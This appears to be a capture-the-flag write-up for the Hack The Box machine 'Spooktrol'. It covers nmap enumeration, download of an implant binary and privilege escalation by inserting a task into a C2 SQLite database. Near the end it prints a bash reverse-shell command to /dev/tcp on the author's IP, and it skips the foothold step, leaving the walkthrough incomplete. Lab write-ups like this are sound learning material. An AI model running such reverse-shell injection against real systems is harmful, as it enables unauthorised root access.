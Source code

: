 # Spooktrol

This is the write-up for the box Spooktrol that got retired at the 26th October 2021.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.123    spooktrol.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/spooktrol.nmap 10.10.11.123
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
80/tcp   open  http    uvicorn
|_http-title: Site doesn't have a title (application/json).               
|_http-server-header: uvicorn
| http-robots.txt: 1 disallowed entry
|_/file_management/?file=implant
| fingerprint-strings:
|   FourOhFourRequest:
(...)
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 1677768a65a3db231121666ee4c3f232 (RSA)
|   256 6192eb7aa914d76051000c4421a26108 (ECDSA)
|_  256 75c1969c69aac874ef4f72bd6253e94c (ED25519
```

## Checking HTTP (Port 80)

According to the scan, the web server is running on [uvicorn](https://www.uvicorn.org/), which is an **ASGI (Asynchronous Server Gateway Interface)** web server implementation written in **Python**.
The website is a JSON API and has one object:
```
auth: "1ee972476b15c93de27115868a30e75a"
```

The initial scan found the _robots.txt_ file, which has one entry to the directory _/file_management/?file=implant_.
It outputs binary data, so the _implant_ file can be downloaded for further analysis:
```
curl 'http://10.10.11.123/file_management/?file=implant' -o implant
```

The `file` command recognizes it as an **ELF binary**:
```
file implant

implant: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=ce05777839d03f0df9cfcc82f20c437dd55e645e, with debug_info, not stripped
```

### Reverse Engineering Binary

Dynamic analysis by executing the binary:
```
./implant
```

> Executing resolves in a Segmentation Fault, which should not happen so I cannot proceed.
> TBD

## Privilege Escalation

In the root directory is a _.dockerenv_ file, which means that this is a **Docker container** we have to break out of.

The web application is in the directory _/opt/spook2_ and in there is a **SQLite database**:
```
sqlite3 sql_app.db
```

Checking tables of the database:
```
sqlite> .schema
```

Enumerating the table _sessions_:
```
sqlite> select * from sessions;

1|10a6dd5dde6094059db4d23d7710ae12|spooktrol
```

Enumerating the table _tasks_:
```
sqlite> select * from tasks;

1|10a6dd5dde6094059db4d23d7710ae12|1|1|whoami||root
```

This is the same ID and when enumerating the table _checkins_ for this string, it shows that the user root executes `whoami` every two minutes:
```
sqlite> select * from checkins where session == '10a6dd5dde6094059db4d23d7710ae12
```

The command can be found in the database and can be modified to execute a reverse shell:
```
sqlite> .dump tasks
```
```
sqlite> INSERT INTO tasks VALUES(2,'10a6dd5dde6094059db4d23d7710ae12',0,1,'bash -c "bash -i >& /dev/tcp/10.10.14.2/9001 0>&1"','','');
```

After two minutes, it will execute the command and the listener on my IP and port 9001 starts a reverse shell as root!
